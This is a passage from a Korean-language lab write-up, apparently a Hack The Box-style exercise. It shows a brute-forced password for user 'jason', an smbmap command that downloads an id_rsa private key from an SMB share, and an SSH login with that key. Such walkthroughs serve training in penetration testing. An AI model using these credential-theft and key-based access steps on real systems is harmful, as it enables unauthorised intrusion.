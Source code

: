 브루트 포싱 결과, `jason`의 계정 비밀번호가 `34c8zuNBo91!@28Bszh` 와 일치함을 확인하였다.

## File download

`smbmap` 명령어를 이용하여 `id_rsa` 의 파일을 로컬로 다운로드 하였다.

```bash
$ smbmap -u 'jason' -p '34c8zuNBo91!@28Bszh' -H 10.129.203.6 -r GGJ -A id_rsa
```

## SSH connect

우선 먼저 `chmod` 명령어를 이용하여 `id_rsa` 키의 권한을 `600`으로 설정하였다.

```bash
$ chmod 600 10.129.203.6-GGJ_id_rsa
```

이후, 아까 확인 한 `nmap` 결과에서 **SSH(포트 22)** 가 열려 있음을 확인하고, 획득한 `id_rsa` 개인키를 사용해 `jason` 계정으로 SSH 접속을 시도하였다.

```bash
$ ssh -i 10.129.203.6-GGJ_id_rsa jason@10.129.203.6
```

`jason` 사용자의 SSH 접속에 성공하였다.

![Domain](/assets/network-screenshots/smb/ssh-connect.png)
